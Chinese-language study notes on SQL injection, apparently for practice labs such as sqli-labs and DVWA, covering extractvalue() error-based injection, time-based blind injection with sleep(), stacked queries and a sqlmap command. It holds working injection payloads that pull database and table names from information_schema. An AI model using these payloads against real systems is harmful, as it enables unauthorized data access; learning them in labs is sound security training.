 ##### extractvalue()

**原理**

```
extractvalue(xml_document,Xpath_string) # 原型
xml_document是string格式，为xml文档对象的名称
Xpath_string是xpath格式的字符串
```

```mysql
select * from security.users where id = 1 and (extractvalue('anything',concat('~',(select database()))));
## 第一个参数随便写，第二个参数使用~（或者0x7e）使其不满足xpath格式，括号内写select语句，语句会将报错信息也即查询结果回显
```

* concat('a', 'b') = "ab"
* '~'可替换为'#' '$'等不满足xpath格式的字符（目的是为了让其报错）
* extractvalue最大长度字符串为32，超32需要limit分页或者substring()截取

```mysql
# payload
1' and (extractvalue('anything',concat('~',(select database()))))--+
# 回显
XPATH syntax error:'~[database]'
# payload
1' and (extractvalue(0x7e,concat('~',(select table_name from information_schema.tables where table_schema='security' limit 0,1))))--+
# limit 0,1 ----- 表中的第0项
# limit 1,1 ----- 表中的第1项
# 数据多的可以放入burp爆破 limit选项
```



#### 时间盲注

由于sql中的and语句，当and前为真时才会执行and后的语句

```mysql
# 构造延时payload
1' and sleep(5)#
# 对应sql
select * from [table] where id = '1' and sleep(5)#
```

### 堆叠查询注入

原理：**通过加 ‘；’ 执行多条sql语句**

当常用字段被过滤时可以使用

### Sqlmap

```shell
sqlmap.py -u "http://192.168.58.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=sc98fvrf13qhrslu29k491pj86"
```
